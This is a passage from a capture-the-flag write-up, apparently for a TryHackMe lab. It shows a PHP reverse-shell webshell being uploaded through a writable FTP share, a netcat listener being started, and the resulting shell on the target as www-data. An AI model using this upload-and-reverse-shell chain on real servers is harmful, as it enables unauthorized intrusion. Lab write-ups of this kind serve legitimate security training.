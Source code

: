 - It looks like we can upload files to this FTP server. Let's navigate back to the `/files/ftp` directory and see if it is there:

![Test File Uploaded to FTP Server](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/aa5faaf9-70d0-4633-ad72-c6cb992ada4f)


- Success! Since we can upload files to our machine and access it through the web browser, we can try to leverage some reverse shell payloads to try and gain a foothold onto the system. \

## System Hacking
- If you're using the THM AttackBox like I am, you may know that it comes with some webshells already present on it that we can leverage. If you aren't or don't have it, you can grab it from [this GitHub repo](https://github.com/pentestmonkey/php-reverse-shell). I'm going to copy it over to my working directory with the following command:
```
cp /usr/share/webshells/php/php-reverse-shell.php ~/Startup
```

- Now that we have that in our working directory, let's take a look at in and edit whatever options we need to (like port number and IP addresses, for example) and add those as necessary. 
- Once all the necessary options have been changed, we can upload it to the FTP server with these commands:
```sh
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (98.8582 MB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5494 Dec 13 18:19 php-reverse-shell.php
-rwxrwxr-x    1 112      118             0 Dec 13 18:03 test.txt
226 Directory send OK.
```

- Now that it's there, let's go back to the web server and see if it is present:

![Rev Shell Loaded](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/e81ad760-03ab-4222-b76a-8d4357598185)


- It seems to be. Before we can click on that `php-reverse-shell.php` file to execute it, we have to start a [Netcat](https://sectools.org/tool/netcat/) listener to catch to call back to our machine and establish a shell. This is the syntax we can use:
```
nc -lnvp 8888
```

- Here is a breakdown of this command:
	- `-lnvp` - This specifies that we want [Netcat](https://sectools.org/tool/netcat/) to listen for incoming connections (`-l`), suppress name/port resolutions (`-n`), give us verbose information (`-v`), and specifies a port number (`-p`), which is 8888 in this case. 
- Now that our [Netcat](https://sectools.org/tool/netcat/) listener is running, we can click on the `php-reverse-shell.php` file in our web browser to execute the script. If all goes according to plan, this is what we should see:
```
Connection from target-ip 53886 received!
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:25:43 up  1:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
